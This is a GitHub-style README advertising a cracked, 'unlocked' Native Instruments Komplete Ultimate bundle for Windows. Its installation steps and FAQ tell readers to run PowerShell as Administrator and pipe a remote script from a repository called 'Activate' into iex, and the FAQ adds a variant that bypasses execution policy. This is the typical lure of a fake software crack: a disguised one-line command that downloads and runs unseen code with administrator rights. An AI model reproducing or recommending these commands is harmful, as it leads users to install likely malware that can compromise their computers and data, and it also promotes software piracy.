

<div align="center">


<br>


# Native Instruments Komplete Ultimate Pack
**Ultimate bundle · Kontakt libraries · 100+ instruments**
<br>
Premium · Unlocked · Full build · Windows



**Native Instruments Komplete Ultimate — massive instrument and effect bundle with Kontakt libraries, Massive X, Guitar Rig and orchestral expansions on Windows.**

</div>

---

> Komplete Ultimate assembles flagship synths, sampled orchestras and effect chains — compose, score and sound-design with the full NI catalog in one installer.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 🎹 **Kontakt libraries** — Acoustic and hybrid instruments at studio quality.
- 🎛️ **Flagship synths** — Massive X, Absynth and Reaktor ensembles included.
- 🎸 **Guitar Rig** — Amp and pedal modeling for direct recordings.
- 🥁 **Drum expansions** — Battery kits across electronic and acoustic styles.
- 📦 **Single installer** — Ultimate tier content without piecemeal purchases.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 500 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>How much disk space do I need?</b></summary>
<br>Komplete Ultimate is large — plan for 500 GB or more if you install every included library.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 500 GB free space.
</details>


TAGS
native-instruments, komplete, kontakt, vst, music-production, windows, software, audio, synthesizer, sampler
